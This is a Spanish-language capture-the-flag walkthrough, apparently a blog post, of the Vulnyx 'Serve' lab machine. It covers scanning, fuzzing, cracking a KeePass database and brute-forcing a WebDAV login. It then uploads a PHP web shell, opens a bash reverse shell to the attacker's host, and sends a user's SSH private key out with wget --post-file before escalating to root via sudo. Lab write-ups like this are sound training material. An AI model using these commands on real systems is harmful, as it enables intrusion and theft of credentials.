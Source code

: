 ```yaml
---
layout: post
title: "Serve"
date: 2024-04-16 11:20:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Serve </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#serve"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/serve/serve_pc.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![serve](/notas/public/img/vulnyx/serve/arp-scan.png){:.margin}


**2\.** Escanemos puertos abiertos en el host objetivo.

`sudo nmap -p -sS -sCV --open --min-rate=5000 -n -Pn 192.168.1.12 -oN report_scan`

![serve](/notas/public/img/vulnyx/serve/nmap.png){:.margin}

**3\.** Visitando el servicio apache, no tenemos nada importante.

`http://192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/80.png){:.margin}

**4\.** Fuzzeamos en busca de directorios.

`gobuster dir -u http://191.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![serve](/notas/public/img/vulnyx/serve/gobuster.png){:.margin}

- Vistamos la primera ruta y nos dice que no tenemos permisos.

`http://192.168.1.12/javascript/`

- En la segunda ruta tampoco se ve nada importante.

`http://192.168.1.12/secrets/`

- En el tercer directorio, tenemos un panel login, pero no tenemos credenciales.

`http://192.168.1.12/webdav/`

![serve](/notas/public/img/vulnyx/serve/webdav.png){:.margin}

**5\.** Seguimos fuzzeando, ahora contemplamos la busqueda de ficheros.

`gobuster dir -u http://192.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![serve](/notas/public/img/vulnyx/serve/gobuster_files.png){:.margin}

**6\.** Revisamos el fichero notes haber que nos muestra.

`http://192.168.1.12/notes.txt`

![serve](/notas/public/img/vulnyx/serve/notes_txt.png){:.margin}

**7\.** Fuzzeamos el directorio secret, tambien contemplamos ficheros kdbx.

`gobuster dir -u http://192.168.1.12/secrets/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,kdbx`

![serve](/notas/public/img/vulnyx/serve/kdbx.png){:.margin}

**8\.** Nos descargamos el fichero db.kdbx visitando a esta url.

`http://192.168.1.12/secrets/db.kdbx`

**9\.** Creamos un hash que represente la contraseña del fichero.

`ls`

`keepass2john db.kdbx > kepass.txt`

![serve](/notas/public/img/vulnyx/serve/keepass2john.png){:.margin}

**10\.** Aplicamos bruteforce al hash para obtener la contraseña. 

`john --wordlist=/usr/share/wordlists/rockyou.txt kepass.txt`

![serve](/notas/public/img/vulnyx/serve/john.png){:.margin}

**11\.** Abrimos keepass y asu vez abrimos la base de datos db.kdbx .

-   pasos para tener keepass:

```
    https://keepassxc.org/
    chmod +x KeePassXC-2.7.7-x86_64.AppImage
    ./KeePassXc-2.7.7-x86_64.AppImage & disown
```

![serve](/notas/public/img/vulnyx/serve/open_keepass.png){:.margin}

**12\.** Abrimos la nota, tenemos credenciales para webdav. 

![serve](/notas/public/img/vulnyx/serve/open_admin.png){:.margin}

_- No sabemos el numero de empleado para reemplazar las X._
![serve](/notas/public/img/vulnyx/serve/keepass_show_cred.png){:.margin}

**13\.** Creamos un diccionario reemplazando cada X por un numero.

`crunch 9 9 -t w3bd4v%%% -o dict.txt`

![serve](/notas/public/img/vulnyx/serve/crunch.png){:.margin}

**14\.** Usamos hydra para bruteforcear el panel login de webdav.

`hydra -l admin -P dict.txt -f 192.168.1.12 http-get /webdav`

![serve](/notas/public/img/vulnyx/serve/hydra.png){:.margin}

_- Ya con credenciales accedemos a webdav; está vacio._

![serve](/notas/public/img/vulnyx/serve/log_webdav.png){:.margin}

**15\.** Creamos un archivo para mediante un parámetro en la url poder ejecutar comandos.

`echo "<?php system($_GET['cmd']);?>" > cmd.php`

![serve](/notas/public/img/vulnyx/serve/echo.png){:.margin}

**16\.** Lo subimos al servidor apache.

`curl --digest --user 'admin:w3bd4v513' -T 'cmd.php' 'http://192.168.1.12/webdav/'`

![serve](/notas/public/img/vulnyx/serve/curl.png){:.margin}

**17\.** Probamos si funciona ejecutando un comando al azar.

`http://102.168.1.12/webdav/cmd.php?cmd=id`

![serve](/notas/public/img/vulnyx/serve/id.png){:.margin}

**18\.** Nos ponemos en escucha en en puerto.

`sudo nc -nlvp 443`

![serve](/notas/public/img/vulnyx/serve/nc.png){:.margin}

**19\.** Nos enviamos una reverse-shell a nuestro nc.

`http://192.168.1.12/webdav/cmd.php?cmd=bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

![serve](/notas/public/img/vulnyx/serve/reverse_shell.png){:.margin}

_- Obtenemos la conexión a la máquina:_

![serve](/notas/public/img/vulnyx/serve/connected_nc.png){:.margin}

**20\.** Revisamos permisos sudo disponibles.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/sudo_l.png){:.margin}

**21\.** Nos ponemos en escucha en otro puerto, y usando wget nos enviamos el contenido del idrsa del usuario teo.

`sudo -u teo /usr/bin/wget --post-file=/home/teo/.ssh/id_rsa 192.168.1.9:4444`

![serve](/notas/public/img/vulnyx/serve/idrsa_nc.png){:.margin}

**22\.** Copiamos y guardamos la idrsa en un fichero.

`nano id_rsa`

![serve](/notas/public/img/vulnyx/serve/nano_idrsa.png){:.margin}

**23\.** Utilizamos [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para crackear la contraseña.

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k id_rsa`

![serve](/notas/public/img/vulnyx/serve/rsacrack.png){:.margin}

**24\.** Ahora accedemos por ssh como el usuario teo proporcionando la contraseña obtenida.

`ssh -i id_rsa teo@192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/ssh.png){:.margin}

**25\.** Revisamos permisos sudo del usuario, vemos que podemos ejecutar el binario 'bro' como root.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/teo_sudo_l.png){:.margin}

**26\.** Si ejecutamos este binario, nos dice que ejecutemos como 'bro curl'.

`sudo bro`

![serve](/notas/public/img/vulnyx/serve/bro.png){:.margin}

**27\.** Una vez ejecutado, al final(:) nos lanzamos una bash. 

`!/bin/bash`

![serve](/notas/public/img/vulnyx/serve/sudo_bro_puntos.png)
![serve](/notas/public/img/vulnyx/serve/sudo_bro_bash.png)

**28\.** Ya logrado el super-usuario en la máquina, finalizamos obteniendo la flag de root. 

`cat /root/root.txt`

![serve](/notas/public/img/vulnyx/serve/flag.png)

<br>

##### **_finalizado._**